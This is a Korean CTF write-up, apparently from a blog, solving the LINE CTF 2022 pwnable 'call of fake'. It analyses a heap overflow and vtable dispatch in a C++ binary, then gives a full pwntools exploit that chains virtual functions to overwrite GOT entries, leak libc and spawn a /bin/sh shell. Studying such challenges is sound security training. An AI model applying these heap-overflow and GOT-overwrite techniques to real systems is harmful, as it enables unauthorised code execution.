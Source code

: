 ```yaml
---
layout: post
title: LINE CTF 2022 - call of fake
date: 2022-04-17 13:55:00 +0900
categories: [Security, CTF]
tags: [c++, pwnable, BOF, virtual function, security factorial]
---
```


![rank](0417-LINE-calloffake-writeup/01-rank.png)

3월 26일에 있었던 LINE CTF에 Security Factorial의 이름으로 참가하였고 18등을 하였다!

나는 call-of-fake 한 문제를 SDJ 형이랑 같이 풀었다.

---

## 문제 분석

![생각보다 잔디가 없다](0417-LINE-calloffake-writeup/02-checksec.png)

이 문제는 C++로 짜였고, C++ 하면 객체지향이다.

그런데, 이 문제에서 쓰이는 클래스들을 모두 분석하기에는 그 양이 방대해서, 동적 분석을 진행하고 필요한 것만 가져다가 IDA에 반영하는 식으로 우회 조건을 파악하면서 문제를 해결하였다.

먼저, main 함수는 decompile 된 코드를 보면, 좀 어지러울 수 있지만, 코드 구성은 대충 다음과 같다.

```c
objectManager *om;
guardManager *gm;

int main()
{
	char read_buf[64];
	char buf[0x400];

	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	memset(read_buf, 0, sizeof(read_buf));
	memset(buf, 0, sizeof(buf));

	om = new objectManager();
	gm = om->castGuardManager();
	puts("Make call of fake!");

	for(int i=0; i<9; ++i)
		om->Objects[i] = new Object1(gm);

	for(int i=0; i<9; ++i)
	{
		Object1 *ptr = om->Objects[i];
		ptr->setTag(i);

		printf("str: ");
		memset(read_buf, 0, sizeof(read_buf));
		read(0, read_buf, 0x20);

		ptr->setName(read_buf, strlen(read_buf));
		puts(ptr->getNameBuffer());
	}

	printf("heap buffer overflow primitive: ");
	read(0, buf, 0x400);
	memcpy(om->myObject[0], buf, 0x400);  // <--- vulnerable
	delete om;
	return 0;
}
```
`objectManager` 객체에서는 9개의 Object1 객체를 멤버 변수로 가지고 있다. 그리고, 9개의 객체 내부의 `objectString` 멤버에 원하는 값을 쓴다. 그리고, 가장 중요한 것은 `om->myObject[0]`에 0x400만큼 힙 오버플로우가 발생한다는 것이다. 그리고, `om`의 destructor가 실행될 때, 우리가 힙에 작성한 값이 문제가 된다.

프로그램을 실행하고, 힙 오버플로우를 낼 때, 'A'를 쭉 입력하면 다음과 같은 디버깅 화면을 볼 수 있다.

![pwndbg - segmentation fault](0417-LINE-calloffake-writeup/03-segmentation-fault.png)

이를 통해, `objectManager`의 destructor 메소드가 실행되는 과정에서, 우리가 `objects[0]`에 입력한 값을 역참조한다는 것을 확인할 수 있다. 그렇다면, 'A'*8이 아니라, 무언가 정상적으로 역참조할 수 있는 값을 주어야 할 것이다.

그렇다면, 어떤 주소를 입력하는 것이 좋을까? decompile 된 코드를 살펴보자.

![objectManager::~objectManager / line 37](0417-LINE-calloffake-writeup/07-decompiled.png)

`om->Objects[i]->object1_vtable`의 값(우리가 통제할 수 있는 부분)을 가져온다.

그리고, 그것이 0이거나, `*(funcs+8*k)`와 일치하지 않으면, `exit(0)`을 수행하고,

그렇지 않으면, 자기 자신을 인자로 해당 함수를 실행한다.

<span style="color: #808080">* func_fire라고 표시된 거는 원래 들어있는 값이 Object1::fire() 여서 그렇다..</span>

그렇다면, funcs 테이블에 위치한 값은 무엇이길래 저걸 참조할까?

![b* 0x402D26 / ... / tele $rax 12](0417-LINE-calloffake-writeup/04-breakpoint.png)

바로, 가상함수 모음집이다. Object1의 메소드도 있고, objectString의 메소드도 있고, objectManager의 메소드도 있다.

이걸 어디서 났느냐?

![objectManager::objectManager -> guardManager::guardManager -> Guard::loadObjectFlow](0417-LINE-calloffake-writeup/05-function-table.png)

`objectManager`의 생성자에서 실행되는 함수 중에, `guardManager`의 벡터에 위의 함수들을 push_back하는 루틴이 존재한다! 즉, 힙에 있는 값이므로, overwrite가 가능하고 이를 이용하면 원하는 함수를 실행시킬 수도 있을 것이다.

그러나, `objectManager`의 생성자가 실행되고, 소멸자가 호출되는 사이에 힙에 있는 값을 overwrite하는 것은 어렵다. 따라서, 위에 있는 함수들을 적절히 이용하여, libc leak을 수행하고 쉘을 따내야 한다는 의미가 된다.

이중에서 내가 유용하게 사용하였던 함수는 `Object1::addTwiceTag와 objectString::set`이다.

`Object1::addTwiceTag`는 `Object1::addTag(this, *((_QWORD *)this + 1))`을 수행하는 함수로, `om->objects` 객체를 p64(addTwiceTag) + p64(rsi)로 덮으면, 원하는 값으로 rsi 설정이 가능하다.

`objectString::set`는 `memcpy(*((_QWORD)this+1), a2, *((_QWORD)this +2))`을 수행하는 함수로, `om->objects` 객체를 p64(set) + p64(rdi) + p64(rdx)로 덮으면, 임의의 destination에 원하는 size만큼 덮을 수 있다.

즉, `om->objects[0]`을 `addTwiceTag`로 세팅하고, `om->objects[1]`을 `objectString::set`로 세팅하면, memcpy(rdi, rsi, rdx)를 호출할 수 있다. 또한, call-of-fake 바이너리가 partial relro이기 때문에, GOT Overwrite가 가능하다는 것도 중요하다.

이전에 언급하였듯이, 위 벡터에 존재하지 않는 주소를 덮을 경우, exit(0)을 호출한다고 하였다. 그런데, 우리가 exit의 got를 원하는 주소로 덮어버린다면?

임의 함수 호출이 가능하다는 소리가 되고, 심지어는 그 뒤의 루틴이 `objects[i]->vtable` 함수 호출이기 때문에, 위 벡터에 존재하지 않는 주소라도 역참조하여 실행시킬 수 있다는 의미가 된다.

이러한 정보들을 적절히 활용하면, 문제를 풀이할 수 있다. 이후의 풀이 방법은 사람마다 다양할 것이다.

---

## 익스플로잇

```python
from pwn import *

def sendStr(msg):
    p.sendafter(b"str: ", msg)

p = process('./call-of-fake')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so', False)
for i in range(9):
    sendStr(b'A'*0x20)

om = 0x407110
gm = 0x407118
StringSet = 0x405d68
addTwiceTag = 0x405d50

# memcpy(exit_got, read_got, 0x8)
payload = p64(addTwiceTag)
payload += p64(0x407098) + b'B'*0x30
payload += p64(StringSet)
payload += p64(0x407088) + p64(0x8) + b'B'*0x28

# memcpy(memset_got, puts_got, 0x8)
payload += p64(addTwiceTag)
payload += p64(0x4070a8) + b'B'*0x50
payload += p64(StringSet)
payload += p64(0x407050) + p64(0x8) + b'B'*0x48

# puts(read_got)
payload += p64(addTwiceTag)
payload += p64(0x0) + b'C'*0x50
payload += p64(StringSet)
payload += p64(0x407098) + p64(0x0) + b'D'*0x48

# exit(0, memcpy_got, a3) -> read(0, memcpy_got, a3)
payload += p64(addTwiceTag)
payload += p64(0x407050) + b'F'*0x50
payload += p64(0x407020) + b'E'*0x58

# memcpy(_ZdlPv_got, a2, 0) -> system("/bin/sh")
payload += p64(StringSet)
payload += p64(0x407058) + p64(0)
p.sendafter(b": ", payload)

libc.address = u64(p.recv(6)+b'\x00\x00') - libc.symbols['read']
read = libc.symbols['read']
system = libc.symbols['system']

log.info("libc_base : " + hex(libc.address))
p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```
나의 문제 풀이 방법은 다음과 같다.

1. exit_got를 read_got로 덮는다.

2. memset_got를 puts_got로 덮는다.

3. puts(read_got)를 호출한다. (이때, addTwiceTag는 필요 없는 것 같은데 넣었네요)

4. Object1::addTwiceTag를 이용해, rsi를 memcpy_got로 세팅하고, 가상함수 테이블에 없는 함수인 printf_got를 넣어서, read(0, memcpy_got, arg3)을 실행한다.

5. memcpy_got를 system 함수로, 바로 옆에 있는 값을 "/bin/sh"로 덮은 뒤에, objectString::set 메소드를 호출하여, system("/bin/sh")가 실행되게 한다.

![shell](0417-LINE-calloffake-writeup/06-shell.png)

